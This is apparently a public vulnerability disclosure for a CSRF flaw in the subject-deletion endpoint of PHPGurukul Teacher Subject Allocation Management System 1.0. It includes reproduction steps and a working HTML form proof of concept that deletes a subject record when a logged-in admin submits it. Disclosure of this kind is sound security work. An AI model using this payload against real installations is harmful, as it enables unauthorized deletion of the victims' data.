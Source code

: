 ## Teacher Subject Allocation Management System V1.0


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/admin/subject.php" endpoint of PHPGurukul Teacher Subject Allocation Management System 1.0  allows attackers to "Delete a new Subject" via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Teacher Subject Allocation Management System
# Date: 07-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/tsas/admin/subject.php endpoint after logging into the admin account.

<img width="956" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/832bf663-b706-40b2-83c4-6eb774e5d333">



2- Here you can see that there are many added subjects, but now we will delete the First subject "Introduction to Psychology" using the HTML code we have written.

<img width="391" alt="2" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/00ab9265-5674-40d4-9337-a2c453544ff2">


```
<html>
  <!-- CSRF PoC Delete Subject- Dhabaleshwar Das -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/tsas/admin/subject.php">
      <input type="hidden" name="delid" value="13" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```


3- We'll then execute this HTML code and we successfully see that the record has been deleted successfully.
